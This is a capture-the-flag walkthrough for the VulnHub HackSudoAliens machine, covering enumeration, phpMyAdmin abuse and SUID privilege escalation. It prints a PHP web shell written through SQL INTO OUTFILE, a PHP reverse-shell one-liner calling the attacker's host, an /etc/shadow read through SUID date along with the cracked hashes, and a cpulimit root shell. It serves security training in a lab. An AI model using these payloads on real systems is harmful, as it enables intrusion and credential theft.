

This is a walkthrough for the [HackSudoAliens](https://www.vulnhub.com/entry/hacksudo-aliens,676/) boot2root machine on VulnHub.  
## Enumeration
Ran nmap to enumerate services running on the target machine  
`sudo nmap -A -p- 10.0.3.61`
>Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-24 10:36 EDT  
Nmap scan report for 10.0.3.61  
Host is up (0.00050s latency).  
Not shown: 65532 closed tcp ports (reset)  
PORT     STATE SERVICE VERSION  
**22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)**  
\| ssh-hostkey:   
\|   2048 31d856f4cf8b09e8a15e2eddac086bdd (RSA)  
\|   256 cd65ec9ed02c6b4e0240c3fd015dd187 (ECDSA)  
\|\_  256 0300280e0bda1268c3c545abbb9292fa (ED25519)  
**80/tcp   open  http    Apache httpd 2.4.38 ((Debian))**  
\|\_http-server-header: Apache/2.4.38 (Debian)  
\|\_http-title: Hacksudo Alien?  
**9000/tcp open  http    Apache httpd 2.4.38 ((Debian))**  
\|\_http-server-header: Apache/2.4.38 (Debian)  
\| http-robots.txt: 1 disallowed entry   
\|\_/  
**\|\_http-title: phpMyAdmin**  

Ran nikto to enumerate information and potential vulnerabilities for the web server running on port 80  
`sudo nikto -h http://10.0.3.61`
>\- Nikto v2.5.0  
\---------------------------------------------------------------------------  
\+ Target IP:          10.0.3.61  
\+ Target Hostname:    10.0.3.61  
\+ Target Port:        80  
\+ Start Time:         2023-07-24 10:38:18 (GMT-4)  
\---------------------------------------------------------------------------  
\+ Server: Apache/2.4.38 (Debian)  
[snip]  
**\+ /backup/: Directory indexing found.**  
**\+ /backup/: This might be interesting.**  

Ran nikto to enumerate information and potential vulnerabilities for the web server running on port 9000  
`sudo nikto -h 10.0.3.61 -p 9000`  
>\- Nikto v2.5.0  
\---------------------------------------------------------------------------  
\+ Target IP:          10.0.3.61  
\+ Target Hostname:    10.0.3.61  
\+ Target Port:        9000  
\+ Start Time:         2023-07-24 10:38:35 (GMT-4)  
---------------------------------------------------------------------------  
\+ Server: Apache/2.4.38 (Debian)  
[snip]  
**\+ /setup/: This might be interesting.**  

Discovered a config backup file with MySQL credentials in it  
  

The webserver on port 9000 has a phpMyAdmin server running on it  
  

And there's a phpMyAdmin setup page with an option to add a server  
  

Added the localhost MySQL server and configured the credentials from the config backup file that was discovered earlier  
  

Signed in to the localhost MySQL server with the previously discovered credentials and began browsing  
  

## Exploitation

Found an [article](https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/) that details how to upload a reverse shell file via phpMyAdmin and attempted to upload a shell to /var/www/html (a common directory for web server files to be placed in)  
```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {​​system($_GET['cmd']);}​​ ?> </pre></BODY></HTML>" INTO OUTFILE '/var/www/html/cmd.php'
```
  

Navigated to where the shell would likely be located  
  
Success!  

Ran `nc -lvp 1234` to start a nc listener on port 1234  
Sent a reverse shell string to be executed by the web shell  
`php -r '$sock=fsockopen("10.0.3.1",1234);exec("sh <&3 >&3 2>&3");'`  
  
Got a reverse shell running as www-data!  

## Privilege Escalation - hacksudo
Transferred over and ran linpeas and discovered that the date binary has the SUID bit set  
>╔══════════╣ SUID - Check easy privesc, exploits and write perms  
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                      
---Sr-xr-x 1 root root 107K Feb 28  2019 /usr/bin/date               

According to [GTFOBins](https://gtfobins.github.io/gtfobins/date/#suid), when date has the SUID bit set, it can be abused to read sensitive files  
  

Read the contents of /etc/shadow  
`LFILE=/etc/shadow`  
`date -f $LFILE`  
  

Got the hashes of hacksudo and root, listed below in order  
>$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1  
$6$N6p.dpWhPYXSXC9U$8EraUiQ5DtMF5ov2ZbnY8DoLK1liRukqhTnTTK67MQ.tgpglkVX/I9P1aYjNeO/cwjQk9lJ/ABd9YLTMeMSn3/  

Placed the hashes into a file named "hash" and ran hashcat against it with the rockyou.txt wordlist  
`hashcat hash /usr/share/wordlists/rockyou.txt`  
  
Cracked the hacksudo user's hash: aliens  

Was able to SSH into the target machine using the `hacksudo:aliens` credentials  

### user.txt flag
  

## Privilege Escalation - root
Found a file named "cpulimit" with the SUID bit set in hacksudo's Downloads directory  
  

According to [GTFOBins](https://gtfobins.github.io/gtfobins/cpulimit/#suid), cpulimit's SUID permissions can be abused to escalate privileges by running the following:  
`cpulimit -l 100 -f -- /bin/sh -p`  
  
Successfully elevated privileges to root

### root.txt flag

